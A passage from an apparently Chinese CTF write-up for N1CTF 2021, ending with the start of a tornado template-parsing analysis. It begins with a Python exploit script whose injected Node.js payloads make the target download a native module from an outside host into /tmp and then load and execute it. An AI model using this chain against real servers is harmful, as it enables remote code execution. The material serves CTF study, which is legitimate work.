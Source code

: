 ```python
}, function(resp){
    resp.on("data", function(exploit){
        fs.writeSync(f, exploit, 0, exploit.length)
    });
    resp.on("end", function(){
        fs.closeSync(f)
        process.exit(1)
    });
});
"""
gadget_init = "fs=require(\"fs\");f=fs.openSync(\"/tmp/dem0.node\",\"w\");http=require(\"http\");http.get({ host:\"ip\",port:80,path:\"/demomod.node\"},function(r){r.on(\"data\",function(c){fs.writeSync(f, nc, 0, c.length);});r.on(\"end\", function(){fs.closeSync(f);process.exit(1);})});"
# gadget_init = "var fs = require('fs');var file = '/tmp/fff'var data = new Buffer('aaa');var fd = fs.openSync(file, 'w');var bytes = fs.writeSync(fd, data, 0, data.length);fd.close();"
payload_init = payload.format(node=gadget_init)

r = requests.get(url.format(payload_init))
print(r.text)

"""
Run my native module

sty = require("/tmp/styp.node")
console.log(sty)
"""
gadget_shell = "dem0=require(\"/tmp/dem0.node\");console.log(dem0.hello());"
payload_shell = payload.format(node=gadget_shell)

r = requests.get(url.format(payload_shell))
print(r.text)
```

> 1. https://harold.kim/blog/2021/11/n1ctf-writeup/
> 2. https://github.com/Nu1LCTF/n1ctf-2021/tree/main/Web/QQQueryyy_all_the_things
> 3. https://osquery.io/schema/5.0.1/#portage_keywords

远程环境不知道为什么写不进去了 哭哭。

# tornado

拿到题目之后先不要慌，我虽然已经调试过一次tornado，但是那一次极其地没有效率，极其没有用处，所以我打算重新来一次，解析一下关于tornado对于**{{}}**和**{% raw%}** 的解析，其实这两个是一样的，关于其他的方法，他只是被封装为了不同的chunk，进行一步解析之后才来拼接到其中。我们开始。

## 0x01 解析流程

![image-20211128111121579](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211128111121579.png)

render的实质其实就是调用的我们经常出现问题的那个方法**self.render_string**

![image-20211128111504182](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211128111504182.png)

然后**loader.load**方法本质上就是一个**template**对象![image-20211128111935400](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211128111935400.png)

然后我们进到初始化的方法里面去继续看。

下一个重点 很明显在于generate_python这方法里面

![image-20211128112107703](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211128112107703.png)

![image-20211128112139792](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211128112139792.png)

![image-20211128112232956](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211128112232956.png)